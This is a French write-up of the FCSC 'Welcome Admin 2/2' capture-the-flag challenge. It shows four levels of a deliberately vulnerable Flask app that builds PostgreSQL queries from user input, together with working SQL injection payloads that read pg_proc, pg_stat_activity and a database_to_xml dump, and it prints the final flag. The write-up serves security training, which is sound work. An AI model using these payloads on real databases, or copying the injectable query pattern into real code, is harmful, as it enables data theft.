

# Welcome Admin 2/2



Les fichiers fournis :
- [welcome-admin.tar.xz](welcome-admin.tar.xz)

----

Il s'agit de la suite de [Welcome Admin 1/2](../../intro/welcome-admin-1_2/welcome-admin-1_2.md). Dans cette deuxième étape, on va donc essayer d'obtenir le flag `SECOND_FLAG`.

En plus du challenge déjà résolu lors de la première étape, on voit qu'il va falloir en résoudre 4 supplémentaires avant d'arriver sur `/flag`.

On note au passage, d'après le fichier `docker-compose.yml`, que c'est la dernière version disponible de PostgreSQL qui est utilisée comme base de données.

----

### 1. Level ADMIN

Le premier challenge est celui-ci :

```py
@app.route("/admin", methods=["GET", "POST"])
@login_for(Rank.ADMIN, Rank.SUPER_ADMIN, "/super-admin", FIRST_FLAG)
def level2(cursor: cursor, password: str):
    token = os.urandom(16).hex()
    cursor.execute(
        f"""
            CREATE FUNCTION check_password(_password text) RETURNS text
            AS $$
                BEGIN
                    IF _password = '{token}' THEN
                        RETURN _password;
                    END IF;
                    RETURN 'nope';
                END;
            $$ 
            IMMUTABLE LANGUAGE plpgsql;
        """
    )
    cursor.execute(f"SELECT  check_password('{password}')")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
```

Pour le résoudre, il faut réussir à récupérer le `token` qui est généré aléatoirement, puis utilisé dans la définition de la fonction `check_password`.

Or les informations sur les fonctions sont stockées dans [pg_proc](https://docs.postgresql.fr/current/catalog-pg-proc.html). On peut donc s'en servir pour extraire la définition de la fonction et donc le `token`

Voici le password utilisé permettant de valider le niveau et d'être redirigé vers `/super-admin`: 

```txt
' || ( select substring(prosrc,60,32) from pg_proc where proname= 'check_password')) --
```

----

### 2. Level SUPER_ADMIN

Voici le code du challenge suivant :

```py
@app.route("/super-admin", methods=["GET", "POST"])
@login_for(Rank.SUPER_ADMIN, Rank.HYPER_ADMIN, "/hyper-admin")
def level3(cursor: cursor, password: str):
    token = os.urandom(16).hex()
    cursor.execute(f"SELECT '{token}', '{password}';")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[1] == token
```

Comme précédemment, il faut réussir à récupérer le `token` (généré aléatoirement).

Pour cela on va se servir de la vue [pg_stat_activity](https://docs.postgresql.fr/current/monitoring-stats.html#MONITORING-PG-STAT-ACTIVITY-VIEW) pour récupérer le code SQL de la requête elle-même et donc le `token`.

Voici le password utilisé permettant de valider le niveau et d'être redirigé vers `/hyper-admin` :

```txt
___' union select SUBSTR((select query FROM pg_stat_activity where query like 'SELECT ''%' order by 1 ASC  limit 1), 9, 32), SUBSTR((select query FROM pg_stat_activity where query like 'SELECT ''%' order by 1 ASC  limit 1), 9, 32) order by 2 DESC limit 1 --
```

----

### 3. Level HYPER_ADMIN

Voici le code correspondant à ce niveau :

```py
@app.route("/hyper-admin", methods=["GET", "POST"])
@login_for(Rank.HYPER_ADMIN, Rank.TURBO_ADMIN, "/turbo-admin")
def level4(cursor: cursor, password: str):
    cursor.execute(f"""SELECT md5(random()::text), '{password}';""")
    row = cursor.fetchone()
    if not row:
        return False
    if len(row) != 2:
        return False
    return row[0] == row[1]
```

Ici, l'objectif est un peu différent des précédents : il faut que les 2 colonnes ramenées par le `SELECT` soient identiques (i.e. `row[0] == row[1]`).

Sachant que seule la 1ère ligne est récupérée (cf. `row = cursor.fetchone()`), il suffit de combiner au résultat de la requête, un autre résultat (au moyen d'un `UNION`) qui satisfasse la condition à vérifier. Puis d'ordonner la liste ainsi obtenue (via un `ORDER BY`), qui comprend donc 2 lignes, pour que la ligne "sous contrôle" arrive en premier.

Voici le password utilisé permettant de valider le niveau et d'être redirigé vers `/turbo-admin` :

```txt
___' union select '1', '1' order by 2 DESC limit 1 --
```

----

### 4. Level TURBO_ADMIN

Voici le code correspondant à ce niveau :

```py
@app.route("/turbo-admin", methods=["GET", "POST"])
@login_for(Rank.TURBO_ADMIN, Rank.FLAG, "/flag")
def level5(cursor: cursor, password: str):
    table_name = "table_" + os.urandom(16).hex()
    col_name = "col_" + os.urandom(16).hex()
    token = os.urandom(16).hex()

    cursor.execute(
        f"""
        CREATE TABLE "{table_name}" (
          id serial PRIMARY KEY,
          "{col_name}" text
        );

        INSERT INTO "{table_name}"("{col_name}") VALUES ('{token}');
        """
    )
    cursor.execute(f"SELECT '{password}';")
    row = cursor.fetchone()
    print(row)
    if not row:
        return False
    if len(row) != 1:
        return False
    return row[0] == token
```

Ici il faut réussir à récupérer le `token` (toujours généré aléatoirement) qui est inséré dans une table. Le nom de la table et de la colonne utilisés sont suffixés par une partie générée aléatoirement.

Grâce à la fonction [database_to_xml](https://pgpedia.info/d/database_to_xml.html) il est possible de faire un dump du contenu de la base au format XML. Il reste alors à localiser dans ce dump la partie contenant la valeur de `token`

Voici le password utilisé permettant de valider le niveau et d'être redirigé vers `/flag` :

```txt
' || substr(database_to_xml(true, true,' ')::text, 178, 32) --
```

Après cette ultime redirection, le contenu de la page https://welcome-admin.france-cybersecurity-challenge.fr/flag est alors le suivant :

```txt
Congratulations! The flag is: FCSC{a380e590ae8ffe8da9bb86f27d05203b7f9d32dd37c833c2764097840848b3a2}
```
